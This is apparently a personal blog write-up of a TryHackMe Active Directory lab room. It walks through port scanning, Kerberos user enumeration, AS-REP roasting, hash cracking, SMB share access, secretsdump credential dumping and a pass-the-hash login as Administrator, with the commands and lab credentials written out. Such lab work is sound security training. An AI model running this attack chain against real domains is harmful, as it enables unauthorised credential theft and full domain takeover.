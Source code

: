 ```yaml
---
layout: post
title: "Active Directory"
date: 2023-05-20 
categories: ["Hands-on", "TryHackMe"]
tags: "TryHackMe"
---
```


# [Active Directory](https://tryhackme.com/room/attacktivedirectory)
> Attackers think in Graphs
Tool used: **nmap**, **enum4linux**

**Scenario:**
*99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?*

By now, I have focused my skills and energy on exploiting Linux machines. However, I want to switch gears and focus on Windows' Active Directory instead. This shift will help me broaden my horizons and learn not only how to exploit different operating systems but also the various services and systems within that operating system.


## Setup
I followed the setup section to install Impact, bloodhound, and Neo4j, after doing so i ran the command to update and upgrade for any issues. Downloading BloudHound and Neo4j did take a long time so I started reading on each tool. 

```bash

sudo apt update && apt upgrade 

```

### Impacket
[Impacket](https://www.secureauth.com/labs/open-source-tools/impacket/) is a collection of python classes for working with network protocols like IP, TCP and such. It has many features including remote execution, Kerberos, Windows Secrets, Server tools, and etc. 

### Bloodhound
[BloodHound](https://github.com/BloodHoundAD/BloodHound) uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Bloudhound can be used to identify highly complex attack paths, identify and eliminate the paths, gain deeper understanding of privilege relationships 

### Neo4j
Neo4j is a grapgh database managment system. It is designed to store, manage, and process large amounts of structured and connected data in the form of a graph. Unlike traditional relational databases, which store data in tables with rows and columns, Neo4j organizes data in nodes, relationships, and properties.

### evil-winrm
[WinRM](https://www.kali.org/tools/evil-winrm/)(Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.

This program can be used on any Microsoft Windows Servers with this feature enabled (usually at port 5985), of course only if you have credentials and permissions to use it. So it could be used in a post-exploitation hacking/pentesting phase. The purpose of this program is to provide nice and easy-to-use features for hacking. It can be used with legitimate purposes by system administrators as well but the most of its features are focused on hacking/pentesting stuff.

## Enumeration 
I started the enmueration phase with the basics scanning for open ports using nmap. The result were a lot, but I can see that port 139/445 are open and the question asks about the tool to use to enumerate that port which ofcourse is enum4linux.

## Ports scanning  
```bash

nmap -sV 10.10.159.47

53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-20 09:16:12Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

```

### SMB Enumeration 
We can use **enum4linux** to enumerate port 139/445 SMB. The command takes two arguments, the -U to get the serlist and the -o To gather OS information of the target. The NetBIOS-Domain name can be found in the result of the enumeration 

```bash
enum4linux -U -o 10.10.159.47

```
> Commonly used invalid Top-level Domain for AD Domain is .local

### [Kerberos](https://github.com/ropnop/kerbrute/releases) Enumeration 
Kerberos is a key authentication service within AD, for the tool that will be used its **Kerbute** to brute force discover of users, passwords and passwords spray (add later what password spray is)

After setting up Kerbrute to work enumerate the usernames and files i used the previous question hind for the top level domain to write the command below and provided the username list. The command userenum used to enumerate valid usernames 

```bash
./kerbrute userenum --dc 10.10.159.47 -d spookysec.local user.txt
```

After running the enumeration I noticed 3 users that stood out and svc-admin was the answer to the notable account discovered, and the other one was backup.


## Exploiting 

### Abusing Kerberos
ASREPRoasting attach occurs when a user account has the privilege "Does not require Pre-Authentication" set. Meaning that no valid identification is needed befoee requesting a Kerberos Ticket on the specified user account. **Impacket** will be used to make this attack happen, it has a tool called **GetNPUsers.py**that sllows us to query ASREPRoastable accounts from Key Distrubtion center. I ran the command below with the kerbuser.txt that contains the backup and the svc-admin to see if one of them or both of them are ASREPRoastable accounts. SVC-Admin came back with a long hash I copied the first part of the hash and found it in the hashcat examples as '18200 - Kerberos 5, etype 23, AS-REP' 

```bash
python /opt/impacket/examples/GetNPUsers.py -no-pass -usersfile kerbuser.txt -dc-ip 10.10.159.47 spookysec.local/

```

Cracking the hash using hashcat mode 18200 to find that the password is management2005

```bash
hashcat -m18200 kerbhash /usr/share/wordlists/rockyou.txt 

```


## Back to Enumeration
> Enumerating any shares that the domain controller may be giving out. 
**smbclient** is used to make remote SMB shares, the option *-L* lists the shares the command below was used to list the share using the password that was found. 

```bash
smbclient -L 10.10.159.47 -U svc-admin
Enter WORKGROUP\svc-admin's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

For this part i have to use the guide to learn how to use smbclient and what to do. After listing the shares I need to access the backup's content to view the text file. I used the below command to get the file and when it read the content it was encoded so i used cyberchef to decode the base64 to 'backup@spookysec.local:backup2517860' 

```bash
smbclient \\\\10.10.159.47\\backup -U svc-admin
```

## Privilege Escalation 
Now that we have backup credentials that has unique permission that allows all AD changes to be synced with this user we can use the impacket tool **secretsdump.py** which allows retrieval of all password hashes that the back up user account has. I ran the below comman to start the attack and retrieve all the user accounts hashes using the backup username and password found in the previous step.

```bash
python secretsdump.py -just-dc backup@10.10.159.47
```

After recieving all the hashes for the adminstrator, svc-admin and backup I used the evilwinrm with -H option to pass the user's hash to log in as the Administrator then i checked each user desktop to finally get the flags.

```bash
./evil-winrm -i 10.10.159.47 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc 

```

